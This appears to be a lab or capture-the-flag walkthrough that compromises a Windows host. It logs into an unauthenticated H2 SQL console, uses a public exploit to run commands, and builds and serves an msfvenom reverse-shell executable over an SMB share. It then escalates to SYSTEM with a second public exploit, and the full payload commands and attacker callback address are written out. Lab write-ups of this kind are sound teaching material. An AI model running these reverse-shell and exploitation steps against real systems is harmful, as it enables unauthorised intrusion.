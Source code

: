 # IP

TARGET

```
192.168.53.66
```

ME

```
192.168.49.53
```


# NMAP

```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
8082/tcp  open  blackice-alerts
9092/tcp  open  XmlIpcRegSvc
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

```

```

# Port 8082

Port 80 shows us that H2 SQL console should be running on port 8082

Was able to login as sa (admin) user on database without a password using pre-filled default config

Found https://www.exploit-db.com/exploits/49384

Create and load a DLL which is a javascript JNI evaluation engine

Using this, got command execution for whoami

Need to execute a whole reverse shell

Used msfvenom to create a shell as an EXE:

```msfvenom-windows-exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.53 LPORT=9000 -f exe -a x64 --platform windows -b '\x00' -e x64/xor_dynamic -o shell.exe
```

Then used impacket's smbserver with -smb2support flag and a share named test to host shell.exe

```
impacket-smbserver -smb2support test .
```

This can be accessed by just replacing exec() argument with `//192.168.49.53/test/shell.exe`

Got back a connection as `jacko/tony` user with cmd on port 9000

# Privilege escalation

Already saw SeImpersonatePrivilege on current user
Ran winpeas to find any good services
Didn't quite see much

check out Program Files for programs

Found in ProgramFiles (x86) aka a 32 bit compiled program of fiscanner - found [exploit](https://www.exploit-db.com/exploits/49382)
Using this exploit and msfvenom to compile an x86 arch dll, using the same SMB share to move file around:

Got shell as system:

```
C:\Windows\system32>type C:\Users\Administrator\Desktop\proof.txt
type C:\Users\Administrator\Desktop\proof.txt
868a020233cd40304f5614f4faeff94a

```


It seems due to SeImpersonatePrivilege that [GodPotato](https://github.com/BeichenDream/GodPotato) could have worked too...